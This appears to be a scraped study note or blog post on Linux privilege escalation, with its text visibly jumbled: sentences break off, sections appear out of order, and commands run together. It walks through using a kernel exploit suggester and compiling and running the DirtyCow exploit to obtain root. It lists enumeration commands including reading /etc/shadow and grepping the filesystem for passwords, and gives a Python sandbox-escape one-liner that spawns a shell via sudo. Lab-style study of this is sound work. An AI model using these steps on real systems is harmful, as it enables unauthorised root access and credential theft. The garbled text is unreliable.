


Notes - Linux Privilege Escalation
Privilege escalation refers to the act of a user or program gaining access to resources or privileges that are not normally available to them. In the context of a Linux operating system, privilege escalation refers to a user or program gaining access to system-level privileges, such as the ability to install software or access system files.
It is important to note that there are User Enumeration commands among the System Enumeration commands. For example, getting to know the output of sudo -l is almost always more important than getting to know the output of lscpu.
In this entry we will see how to escalate privileges via kernel expoits with DirtyCow and via sudo rights with wget.
I would like to highlight that there are several other escalation paths. The escalation paths are:
command as the lower privileged user and we see this:
Seems like the kernel version is 2.6.35. which might be vulnerable to something as this version is pretty old.
Uploading then running
we can see that the suggester has several suggestions for us.
An interesting suggestion is dirtycow.

Looking at the exploit-db website that can be found in the output, we can see that this exploit really is applicable to this kernel version.
Uploading then running
we can compile the DirtyCow C program (if gcc is installed).
Running the program with the
we can see that the /usr/bin/passwd and the /tmp/bak file has been backed up. It's backed up because DirtyCow modified these files so we can use them to escalate our privileges.
If we type the
command then press enter, we can see that we successfully escalated our privileges to root.

us the Useful References.
Initial Enumeration Commands for Linux PE
System Enumeration
# whoami
# id
# w
# groups
# sudo -l
# hostname
# uname -a
# cat /proc/version
# cat /etc/issue
# lscpu
# ps aux
# ps aux | grep root
User Enumeration
# cat /etc/passwd
# cat /etc/passwd | cut -d : -f 1
# cat /etc/shadow
# cat /etc/group
# history
# sudo su -
Network Enumeration
# ifconfig
# route
# ip route
# arp -a
# ip neigh
# netstat -ano
Password Hunting
# grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2>/dev/null
# locate password | more
# locate pass | more
# locate passwd | more
adm Python Escape
# echo 'print(().__class__.__mro__[1].__subclasses__()[144].__init__.__globals__["__builtins__"]["__loader__"]().load_module("builtins").__import__("os").system("bash -i"))' > /tmp/lm && sudo -u jack_adm /user/bin/safe_python /tmp/lm
- Kernel Exploits
- Passwords and File Permissions
- Sudo
- SUID
- Capabilities
- Scheduled Tasks
- NFS Root Squashing
- Docker
Kernel Exploits
What is a Kernel? The Kernel is a computer program that controls everything in the system. The Kernel helps interactions between hardware and software components. The Kernel is a translator. Let's say we are running the# uname -aLinux debian 2.6.32-5-amd64 #1 SMP Mon Dec 12 16:34:35 2022 x86_64 GNU/Linux# ./linux-exploit-suggester.sh# gcc -pthread c0w.c -o cow# ./cow# passwd